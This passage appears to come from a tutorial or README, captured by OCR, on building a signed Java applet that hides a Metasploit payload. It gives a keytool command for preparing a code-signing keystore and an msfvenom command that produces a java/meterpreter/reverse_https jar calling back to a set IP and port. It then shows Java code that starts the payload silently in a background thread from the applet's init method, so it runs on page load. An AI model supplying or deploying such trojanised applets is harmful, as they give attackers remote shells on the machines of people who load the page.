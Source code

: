 ```
keytool -importkeystore -srckeystore user.p12 -srcstoretype pkcs12 -srcalias <user> -destkeystore user.jks -deststoretype jks -deststorepass password -destalias <user>
```
1. Copy the `user.p12` and `root_cert.pfx` to the systems that will be utilizing the Java applet.
1. Copy the `user.jks` to the system that will be signing the applet.

#### Exporting Metasploit Jar for Reverse HTTPS Call Back

1. Using msfvenom, use the following to create a jar file for reverse_https call back:
```
msfvenom -p java/meterpreter/reverse_https -f raw LHOST=172.16.4.23 LPORT=443 > java_rhttps.jar
```
1. Decompile the jar file using [jd-gui](http://jd.benow.ca/).
1. Once you decompile the `jar`, save the `.java` files.

# Creating Signed Java Applet
## Create new projects in Netbeans

1. Make sure you are using the latest JDK and Netbeans IDE.
1. Create a new project within Netbeans. Once you've shelled out your program, add in the following code to create a thread from your main program:
```java
        Thread athread = new Thread(new Runnable(){
           @Override
           public void run(){
               try{
                Payload.main(new String[0]);
                //Class0.main(new String[0]);
               }
               catch(Exception e){}
           }
        });
        athread.start();
```
1. You need to run the java from an applet context. Create a new java class and fill it with this code:
```java
package newProject;

import java.applet.Applet;

public class webApplet  extends Applet{
        public void init() {
            newProject.mainJavaClass.main(null);
    }
}
```

## Importing Metasploit Java Code into Applet
